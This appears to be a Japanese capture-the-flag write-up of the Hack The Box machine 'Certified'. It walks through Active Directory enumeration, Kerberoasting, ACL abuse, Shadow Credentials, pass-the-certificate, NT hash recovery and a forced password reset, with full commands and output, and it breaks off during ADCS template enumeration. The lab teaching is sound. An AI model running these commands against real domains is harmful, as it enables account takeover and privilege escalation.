

# Certified Writeup

HTB CertifiedのWriteupです。

難易度 : medium
OS : Winodws


OSがWindowsでさらに、名前からしてADCSを悪用するタイプのActive Directoryのマシンだと思われます。

このマシンの攻略には以下のツールを使用します。Githubからクローンする必要があります。

- [PKINITtools](https://github.com/dirkjanm/PKINITtools.git)
- [bloodyAD](https://github.com/CravateRouge/bloodyAD.git)
- [pywhisker](https://github.com/ShutdownRepo/pywhisker.git)

これらのツールを任意の場所にクローンし、それぞれのシンボリックリンクを作成しています。

例：pywhisker.pyの場合

```
git clone https://github.com/ShutdownRepo/pywhisker.git
cd pywhisker
chmod +x pywhisker.py
sudo ln -s $(pwd)/pywhisker.py /usr/local/bin/pywhisker
```

おすすめです。

# 初期情報

マシンを起動するとバナーが表示され認証情報を渡されました。いままで最初から認証情報を渡されるタイプのマシンはやったことがなかったので少しびっくりしました。



この認証情報を使用して進めていきます。

```
judith.mader:judith09
```

# Enumration

## Nmap

```bash
kali@Kali [21時58分39秒] [~/HTB/Certified] 
-> % sudo nmap --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- 10.10.11.41
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 21:58 JST
Nmap scan report for certified.htb (10.10.11.41)
Host is up, received user-set (0.20s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-11-04 13:01:32Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-11-04T13:03:26+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-11-04T13:03:26+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2024-11-04T13:03:26+00:00; 0s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2024-11-04T13:03:26+00:00; 0s from scanner time.
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49708/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49733/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
50638/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (88%)
Aggressive OS guesses: Microsoft Windows Server 2019 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-04T13:02:49
|_  start_date: N/A

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   221.57 ms 10.10.16.1
2   221.66 ms certified.htb (10.10.11.41)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 285.48 seconds
```

やはりActive Directoryマシンでしたが、いつものようにwebサーバーは動いていないみたいです。
スキャン結果からドメインを見つけたので `/etc/hosts` に追加しておきます。

```
10.10.11.41	certified.htb
```
## ドメイン情報

digを使用してドメインの情報を取得します。

```bash
kali@Kali [22時09分08秒] [~/HTB/Certified] 
-> % dig any certified.htb @10.10.11.41

; <<>> DiG 9.20.0-Debian <<>> any certified.htb @10.10.11.41
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 9183
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;certified.htb.			IN	ANY

;; ANSWER SECTION:
certified.htb.		600	IN	A	10.10.11.41
certified.htb.		3600	IN	NS	dc01.certified.htb.
certified.htb.		3600	IN	SOA	dc01.certified.htb. hostmaster.certified.htb. 164 900 600 86400 3600

;; ADDITIONAL SECTION:
dc01.certified.htb.	1200	IN	A	10.10.11.41

;; Query time: 171 msec
;; SERVER: 10.10.11.41#53(10.10.11.41) (TCP)
;; WHEN: Mon Nov 04 22:12:13 JST 2024
;; MSG SIZE  rcvd: 140

```

`dc01.certified.htb` を見つけました。 `/etc/hosts` に追加しておきます。

## SSLscan

Port 636 Ldapsが開いているので一応調べておきます。

```bash
kali@Kali [22時07分16秒] [~/HTB/Certified] 
-> % sslscan 10.10.11.41:636                
Version: 2.1.4
OpenSSL 3.3.2 3 Sep 2024

Connected to 10.10.11.41

Testing SSL server 10.10.11.41 on port 636 using SNI name 10.10.11.41

  SSL/TLS Protocols:
SSLv2     disabled
SSLv3     disabled
TLSv1.0   enabled
TLSv1.1   enabled
TLSv1.2   enabled
TLSv1.3   disabled

  TLS Fallback SCSV:
Server does not support TLS Fallback SCSV

  TLS renegotiation:
Secure session renegotiation supported

  TLS Compression:
Compression disabled

  Heartbleed:
TLSv1.2 not vulnerable to heartbleed
TLSv1.1 not vulnerable to heartbleed
TLSv1.0 not vulnerable to heartbleed

  Supported Server Cipher(s):
Preferred TLSv1.2  256 bits  ECDHE-RSA-AES256-GCM-SHA384   Curve P-384 DHE 384
Accepted  TLSv1.2  128 bits  ECDHE-RSA-AES128-GCM-SHA256   Curve 25519 DHE 253
Accepted  TLSv1.2  256 bits  DHE-RSA-AES256-GCM-SHA384     DHE 2048 bits
Accepted  TLSv1.2  128 bits  DHE-RSA-AES128-GCM-SHA256     DHE 2048 bits
Accepted  TLSv1.2  256 bits  ECDHE-RSA-AES256-SHA384       Curve P-384 DHE 384
Accepted  TLSv1.2  128 bits  ECDHE-RSA-AES128-SHA256       Curve 25519 DHE 253
Accepted  TLSv1.2  256 bits  ECDHE-RSA-AES256-SHA          Curve P-384 DHE 384
Accepted  TLSv1.2  128 bits  ECDHE-RSA-AES128-SHA          Curve 25519 DHE 253
Accepted  TLSv1.2  256 bits  AES256-GCM-SHA384            
Accepted  TLSv1.2  128 bits  AES128-GCM-SHA256            
Accepted  TLSv1.2  256 bits  AES256-SHA256                
Accepted  TLSv1.2  128 bits  AES128-SHA256                
Accepted  TLSv1.2  256 bits  AES256-SHA                   
Accepted  TLSv1.2  128 bits  AES128-SHA                   
Accepted  TLSv1.2  112 bits  TLS_RSA_WITH_3DES_EDE_CBC_SHA
Preferred TLSv1.1  256 bits  ECDHE-RSA-AES256-SHA          Curve P-384 DHE 384
Accepted  TLSv1.1  128 bits  ECDHE-RSA-AES128-SHA          Curve 25519 DHE 253
Accepted  TLSv1.1  256 bits  AES256-SHA                   
Accepted  TLSv1.1  128 bits  AES128-SHA                   
Accepted  TLSv1.1  112 bits  TLS_RSA_WITH_3DES_EDE_CBC_SHA
Preferred TLSv1.0  256 bits  ECDHE-RSA-AES256-SHA          Curve P-384 DHE 384
Accepted  TLSv1.0  128 bits  ECDHE-RSA-AES128-SHA          Curve 25519 DHE 253
Accepted  TLSv1.0  256 bits  AES256-SHA                   
Accepted  TLSv1.0  128 bits  AES128-SHA                   
Accepted  TLSv1.0  112 bits  TLS_RSA_WITH_3DES_EDE_CBC_SHA

  Server Key Exchange Group(s):
TLSv1.2  128 bits  secp256r1 (NIST P-256)
TLSv1.2  192 bits  secp384r1 (NIST P-384)
TLSv1.2  128 bits  x25519

  SSL Certificate:
Signature Algorithm: sha256WithRSAEncryption
RSA Key Strength:    2048

Subject:  DC01.certified.htb
Altnames: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
Issuer:   certified-DC01-CA

Not valid before: May 13 15:49:36 2024 GMT
Not valid after:  May 13 15:49:36 2025 GMT
```

`certified-DC01-CA` 証明機関の名前を見つけたのでこれも `/etc/hosts` 追加しておきます。
## SMB

netexec でユーザーを列挙します。

```bash
kali@Kali [22時17分47秒] [~/HTB/Certified] 
-> % netexec smb 10.10.11.41 -u "judith.mader" -p "judith09" --users        
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.41     445    DC01             Administrator                 2024-05-13 14:53:16 0       Built-in account for administering the computer/domain 
SMB         10.10.11.41     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.41     445    DC01             krbtgt                        2024-05-13 15:02:51 0       Key Distribution Center Service Account 
SMB         10.10.11.41     445    DC01             judith.mader                  2024-05-14 19:22:11 0        
SMB         10.10.11.41     445    DC01             management_svc                2024-05-13 15:30:51 0        
SMB         10.10.11.41     445    DC01             ca_operator                   2024-05-13 15:32:03 0        
SMB         10.10.11.41     445    DC01             alexander.huges               2024-05-14 16:39:08 0        
SMB         10.10.11.41     445    DC01             harry.wilson                  2024-05-14 16:39:37 0        
SMB         10.10.11.41     445    DC01             gregory.cameron               2024-05-14 16:40:05 0        
SMB         10.10.11.41     445    DC01             [*] Enumerated 9 local users: CERTIFIED
```

ユーザーを users.txt というファイルに保存してパスワードを使いまわせるか調べてみます。

```bash
kali@Kali [22時22分43秒] [~/HTB/Certified] 
-> % netexec smb 10.10.11.41 -u users.txt -p "judith09" --continue-on-success
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             [-] certified.htb\management_svc:judith09 STATUS_LOGON_FAILURE 
SMB         10.10.11.41     445    DC01             [-] certified.htb\ca_operator:judith09 STATUS_LOGON_FAILURE 
SMB         10.10.11.41     445    DC01             [-] certified.htb\alexander.huges:judith09 STATUS_LOGON_FAILURE 
SMB         10.10.11.41     445    DC01             [-] certified.htb\harry.wilson:judith09 STATUS_LOGON_FAILURE 
SMB         10.10.11.41     445    DC01             [-] certified.htb\gregory.cameron:judith09 STATUS_LOGON_FAILURE
```

使いまわしはできませんでした。つづいて共有フォルダを見てみます。

```bash
kali@Kali [22時22分58秒] [~/HTB/Certified] 
-> % netexec smb 10.10.11.41 -u "judith.mader" -p "judith09" --shares
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             [*] Enumerated shares
SMB         10.10.11.41     445    DC01             Share           Permissions     Remark
SMB         10.10.11.41     445    DC01             -----           -----------     ------
SMB         10.10.11.41     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.41     445    DC01             C$                              Default share
SMB         10.10.11.41     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.41     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.41     445    DC01             SYSVOL          READ            Logon server share 
```

SYSVOL, NETLOGON にアクセスできます。しかしsmbclientで覗いてみましたがとくに使えそうなものはありませんでした。

## Kerberoasting

judith.maderでkerberoastingが実行します。私の場合、ユーザーとパスワードを取得するとkerberoastingでハッシュを取得できるか必ず確認しています。

その前にターゲットマシンと時間を同期していないと失敗するので時間を同期しておきます。

```bash
sudo ntpdate -u 10.10.11.41
```

### Note - 補足説明

```
これは私だけかもしれませんが上記のコマンドで時間を同期してもKerberoastingに失敗することがあります。その時の解決法を記しておきます。

システムがNTPサーバーから時刻を自動的に同期する機能を停止します。
timedatectl set-ntp off

自動同期をoffにして、その後もう一度 ntpdateで同期することで解決できます。
```

攻撃には `impacket-GetUserSPNs` を使用します。

```bash
kali@kali [22時35分07秒] [~/HTB/Certified] 
-> % impacket-GetUserSPNs -dc-ip 10.10.11.41 -request certified.htb/judith.mader:judith09                       
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName               Name            MemberOf                                    PasswordLastSet             LastLogon                   Delegation 
---------------------------------  --------------  ------------------------------------------  --------------------------  --------------------------  ----------
certified.htb/management_svc.DC01  management_svc  CN=Management,CN=Users,DC=certified,DC=htb  2024-05-14 00:30:51.476756  2024-11-04 22:24:02.571697             


[-] CCache file is not found. Skipping...
$krb5tgs$23$*management_svc$CERTIFIED.HTB$certified.htb/management_svc*$ced49a4550906374cd3b6e07810103f8$926fbada6d6bb8e6b29289264355d00f6813629bdb4517e3517b8eb1c93844f4057ac08254b2985f70b5219f9109882a6a27b41d94e775ff84e10e3e5a80fa1b279b6ab689c71f797b45950b32aa20af72ce311927c595a8b50850d945dcebd6829dac045ecceb7ea2b1f4fbe4a04dc45580e7f638d4fe15c4c5aa245c2e6faeb43e4c0a69a8b28fbd05515b767eabce22853420429b4092732538a698105f522eb239fc0c9707633b734eb577f8ebb0b85fb86f44956fa48e99eedd12be2057451b896da8457a65203d5e333a782457125f952db223f8b8d90e00b73893d887923f83f6bbcaf4541ef2f16ff9a658af829b938321fdcaa2d05ce002c029abc337505727efecf6a081432d0a62a102bf4b9f2ea0fa84a8d0d920e7336155097807c01ae366d88b30c1a4be803fd53d0db8322ed3fff01ca6db31fd235780686569a8c92eccaafc587a96ad4e86d1ac16022e5fb065e4b002b437c9f24af53e7fb573f02fa44315085feafaa5b4173ab6e617c2ed624446e4572147611618a18b1941c9d078b415cd2e068a5a179aa4d2e5c995dc936f3668db2543d11b9a852fc4ca3077b46233b7ba5c450d7c57d686fb4b2863ebe2226517b92aa7819101bdbb39c6d5a88940e1073e5fcf16b377ba955dadc70fb2fba029f9e142f8203ede071956682a31789b6df67ccf6d2d94c38f36c496eaa52672615eae52489e302f19796bf86326b2cb356932376962a6a2057709540a5f230d22de5fd9d8c9a26b70eb93929e21df2640857c1960304580ea2ac8b9e51e6388e77d2992bf93a345cd404330a9850527ba5e57924178f640b06291d7fcbfb6f24a4cbdbae4443f76341b22cad75a47cb71482953f02a2db2aeeafc846be6682bfcc93442dfdfc692b6f2e303405b9eda03edfa770057233b4c619db8e7e62394951989c335d5d4fd1a8822500e1f83b488645e1729fcd39c9d00cd9338186e7957937839d652d12c28c65f8dfbcbe6f2217690141f173d70375beffaef3079fdd929dabb2b8a165961cd77fab5c2a48aa0f063b24a3dc03d65180abffec9b3b6df60f11a3ac47ddcc4eabac18b6af29816df26a4f02a40c0ceeb49b6b6d3c13212e488d169921e732c423d363522c1ab942a3bd638c5a46a79355939f736c232ba6ddc9b4d3db0b90f3ce2ec8d931abee5843c5df0af42d132fc6050282a8f07d313aadb683fa3e9f3dda4533f16f9c77fa8dc36e33f0bdc32a3a49ae360fc5f0e4e20fefff40bdf8c3e72064d357a9b48133e1e6168fd030ec62fafa005c2b7f1ff57de989b80913551a80892eb4a776463fcbe6a13a57bb2ff08c910da06fd7bb24fefa7090cf25910c63ea3db21c60f2baa8218e44e8478faee6b6de08d1d4a9cf113b94c49e972b610063af9b1b8dcc5dfb24a13c88ac61161451e603784a2b86ca4c96496aacffc03de617b782803ecf6575745acf1af8f7cce39f7b1baefd2687e84329847603061a0052d1c2cf796f05da0a00e5c4a6bbfbc72a4d9ce0749beee9ec90fdb4628dedd622115714f60eec920b4d6743285a4a982a5992eb90b
```

`management_svc` のハッシュ値を取得できました。しかし、hashcatで解析してみましたが、解析はできませんでした。
## bloodhound

smbにはなにもなさそうなので bloodhoundで列挙していきます。
`bloodhound-python` を使用します。

```bash
kali@Kali [22時26分30秒] [~/HTB/Certified] 
-> % bloodhound-python -d certified.htb -u "judith.mader" -p "judith09" -dc dc01.certified.htb -ns 10.10.11.41 --zip -c All
INFO: Found AD domain: certified.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 10 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.certified.htb
INFO: Done in 00M 25S
INFO: Compressing output into 20241104222928_bloodhound.zip
```

netexecでもできます。

```bash
kali@Kali [22時34分16秒] [~/HTB/Certified] 
-> % netexec ldap 10.10.11.41 -u "judith.mader" -p "judith09" --bloodhound --collection All --dns-server 10.10.11.41
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.41     389    DC01             [+] certified.htb\judith.mader:judith09 
LDAP        10.10.11.41     389    DC01             Resolved collection methods: rdp, acl, group, dcom, psremote, objectprops, container, session, trusts, localadmin
LDAP        10.10.11.41     389    DC01             Done in 00M 22S
LDAP        10.10.11.41     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.10.11.41_2024-11-04_223442_bloodhound.zip
```

BloodHoundを起動してzipファイルをアップロードします。


現在制御できるのは `judith.mader` のみなのでこいつの持っている権限を見てみます。


`Management` というグループオブジェクトに対して `WriteOwner` の権限を持っています。


この権限をグループオブジェクトに対して持っているとき、ユーザーはそのグループの所有権を自分自身に変更することができます。


さらにManagement グループは `management_svc` に対して `GenericWrite` の権限を持っています。
この権限をユーザーに対して持っているとき、そのユーザに `TargetedKerberoast` 攻撃でそのユーザーのハッシュ値を取得したり、`Shadow Credentials` 攻撃でNTLMハッシュを取得することができます。

続いて `management_svc` の権限を見てみます。


ユーザー `ca_operator` に対して `GenericAll` の権限を持っています。この権限をユーザーに対して持っているときそのユーザーに `TargetedKerberoasting` 攻撃や そのユーザーのパスワードを強制的に変更することができます。

次に `ca_operator` ですがオブジェクトに対して持っている権限は何もありませんでした。名前に CAとついているので、こいつからADCSを悪用することでAdministratorに昇格するものと思われます。

## 攻撃シナリオ

予想されるシナリオは以下のようになると思われます。

1. `judith.mader`に`Mnagementの所有権`を与える
2.  judith.maderに `AddMember` 権限を与える
3.  judith.maderをManagementのグループメンバーに追加
4. `management_svc` から `Shadow Credentials` 攻撃でNTLMハッシュを取得
5. `ca_operator` のパスワードを変更
6.  ca_operatorでADCSを悪用して Administratorに昇格

ca_operatorからは情報がまだありませんがとりあえず `ca_operatorの侵害` を目指します。

# 水平展開
## WriteOwnerの悪用

`impacket-owneredit` を使用することで所有権を自分自身に変更できます。

```bash
kali@Kali [23時11分04秒] [~/HTB/Certified] 
-> % impacket-owneredit -action write -new-owner "judith.mader" -target "Management" certified.htb/judith.mader:judith09
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-1103
[*] - sAMAccountName: judith.mader
[*] - distinguishedName: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
```

所有権を与えることに成功しました。
続いて `judith.maderをManagement グループに追加` します。

その前にグループにメンバーを追加できるようにします。
これには `impacket-dacledit` を使用します。

```bash
kali@Kali [23時31分54秒] [~/HTB/Certified] 
-> % impacket-dacledit -action "write" -rights "WriteMembers" -principal "judith.mader" -target-dn "CN=Management,CN=Users,DC=certified,DC=htb" certified.htb/judith.mader:judith09
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20241104-233847.bak
[*] DACL modified successfully!
```

現在の `Management` のメンバー一覧を出力する

```bash
kali@Kali [23時38分48秒] [~/HTB/Certified] 
-> % net rpc group members "Management" -U certified.htb/"judith.mader"%"judith09" -S 10.10.11.41
CERTIFIED\management_svc
```

judith.maderをメンバーに追加

```bash
net rpc group addmem "Management" "judith.mader" -U certified.htb/"judith.mader"%"judith09" -S 10.10.11.41
```

追加されたか確認

```bash
kali@Kali [23時41分46秒] [~/HTB/Certified] 
-> % net rpc group members "Management" -U certified.htb/"judith.mader"%"judith09" -S 10.10.11.41              
CERTIFIED\judith.mader
CERTIFIED\management_svc
```

### 他のツールを使用する

他にも [bloodyAD](https://github.com/CravateRouge/bloodyAD.git) というツールがあるのですが、これもなかなか便利でよく使っています。以下は bloodyADで一連の操作を行うものです。

所有権を自分自身に与える

```bash
kali@Kali [01時42分28秒] [~/HTB/Certified] 
-> % bloodyAD --host 10.10.11.41 -d "certified.htb" -u "judith.mader" -p "judith09" set owner "Management" "judith.mader"
[+] Old owner S-1-5-21-729746778-2675978091-3820388244-512 is now replaced by judith.mader on Management
```

AddMember権限を与える

```bash
kali@Kali [01時43分59秒] [~/HTB/Certified] 
-> % bloodyAD --host 10.10.11.41 -d "certified.htb" -u "judith.mader" -p "judith09" add genericAll "Management" "judith.mader"
[+] judith.mader has now GenericAll on Management
```

メンバーを追加

```bash
kali@Kali [01時44分13秒] [~/HTB/Certified] 
-> % bloodyAD --host 10.10.11.41 -d "certified.htb" -u "judith.mader" -p "judith09" add groupMember "Management" "judith.mader"
[+] judith.mader added to Management
```

## Shadow Credentials

Shadow Credentials とは攻撃者が Active Directoryアカウントに挿入して、変更されたアカウントへのアクセスを取得または維持する資格情報です。これらは、多くの場合、ターゲットユーザーまたはコンピューターの `msDS-KeyCredentialLink` 属性に不正な証明書またはキーを追加することに関連しています。これにより、パスワードがリセットされた場合でも、そのユーザーとして認証できます。

`msDS-KeyCredentialLink` 属性とはパスワードなしの認証のための生の暗号データを保存して、ユーザーまたはコンピュータオブジェクトにリンクする Active Directory 属性です。


Shadow Credentialsを悪用するには [pywhisker](https://github.com/ShutdownRepo/pywhisker.git) を使用します。

```bash
kali@Kali [23時55分58秒] [~/HTB/Certified]
-> % pywhisker -d "certified.htb" -u "judith.mader" -p 'judith09' --target "management_svc" --action "add"
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: b4cae790-0107-4fb1-8c50-8e4f716cb253
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: lNR55Oli.pfx
[*] Must be used with password: N5bhtamnAnLKczV3nIsv
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

実行が完了するとディレクトリに今回の場合は  `lNR660li.pfx` という証明書とそのパスワード (`N5bhtamnAnLKczV3nIsv`)  が作成されます。

### pywhiskerが失敗するとき

pywhiskerを実行したとき以下のようにエラーが出る場合がある。

```
kali@Kali [20時34分03秒] [~/HTB/Certified] 
-> % pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
[!] name 'logger' is not defined
```

このエラーを解決するには [pywhisker](https://github.com/ShutdownRepo/pywhisker.git) からリポジトリをクローンしてブランチを `c4ecf41` に変更するとエラーを解決できます。

```
git clone https://github.com/ShutdownRepo/pywhisker.git
cd pywhisker
git checkout c4ecf41
```

### Pass the Certificate

これらを使用して management_svc のTGTを要求します(Pass-The-Certificate攻撃)。
[PKINITtools](https://github.com/dirkjanm/PKINITtools.git) の `gettgtpkinit.py` を使用します。

```bash
kali@Kali [00時03分31秒] [~/HTB/Certified] 
-> % gettgtpkinit -cert-pfx lNR55Oli.pfx -pfx-pass N5bhtamnAnLKczV3nIsv certified.htb/management_svc management_svc.ccache
2024-11-05 00:03:34,021 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-11-05 00:03:34,037 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-11-05 00:03:57,992 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-11-05 00:03:57,992 minikerberos INFO     d123466485575ea98cee19cbb59bcc915c798d403f6bf63c17df919d9f559723
INFO:minikerberos:d123466485575ea98cee19cbb59bcc915c798d403f6bf63c17df919d9f559723
2024-11-05 00:03:57,999 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

取得したTGTをエクスポートします。

```bash
export KRB5CCNAME=management_svc.ccache
```

エクスポートしたTGTは `klist` というコマンドで確認できます。

```bash
kali@Kali [00時07分40秒] [~/HTB/Certified] 
-> % klist                                                        
Ticket cache: FILE:management_svc.ccache
Default principal: management_svc@CERTIFIED.HTB

Valid starting       Expires              Service principal
2024-11-05T00:03:57  2024-11-05T10:03:57  krbtgt/CERTIFIED.HTB@CERTIFIED.HTB
```

### UnPAC the hash

TGT が取得され、`AS-REP encryption key` が抽出されると、同じく[PKINITtools](https://github.com/dirkjanm/PKINITtools.git) の `getnthash.py`を使用して NTLMハッシュを復元できます(UnPAC-The-Hash攻撃)。
AS-REP encryption keyは `gettgtpkinit.py`で発行されます。

```bash
kali@Kali [00時07分38秒] [~/HTB/Certified] 
-> % getnthash -key d123466485575ea98cee19cbb59bcc915c798d403f6bf63c17df919d9f559723 certified.htb/management_svc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```

## GenericAllの悪用

management_svcのNTLMハッシュを取得したのでmanagement_svcとしてca_operatorのパスワードを変更します。

```bash
kali@Kali [00時14分51秒] [~/HTB/Certified] 
-> % pth-net rpc password "ca_operator" -U "certified.htb"/"management_svc"%"ffffffffffffffffffffffffffffffff":"a091c1832bcdd4677c28b5a6a1295584" -S 10.10.11.41
Enter new password for ca_operator:
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
```

プロンプトが起動するので新しいパスワード `Password123` を入力します。

bloodyADを使う

```
kali@Kali [01時45分04秒] [~/HTB/Certified] 
-> % bloodyAD --host 10.10.11.41 -d certified.htb -u "management_svc" -p :a091c1832bcdd4677c28b5a6a1295584 set password "ca_operator" "Password123"
[+] Password changed successfully!
```

変更したパスワードが機能するか確認します。

```bash
kali@Kali [00時25分33秒] [~/HTB/Certified] 
-> % netexec smb 10.10.11.41 -u "ca_operator" -p "Password123"      
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\ca_operator:Password123
```

# 特権昇格（Privilege Escalation）

無事 `ca_operator` に水平展開できたので次は Administratorを目指します。
ADCSに脆弱なテンプレートがないか列挙を行います。

```bash
kali@Kali [00時25分55秒] [~/HTB/Certified] 
-> % certipy-ad find -dc-ip 10.10.11.41 -u ca_operator@certified.htb -p "Password123" -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
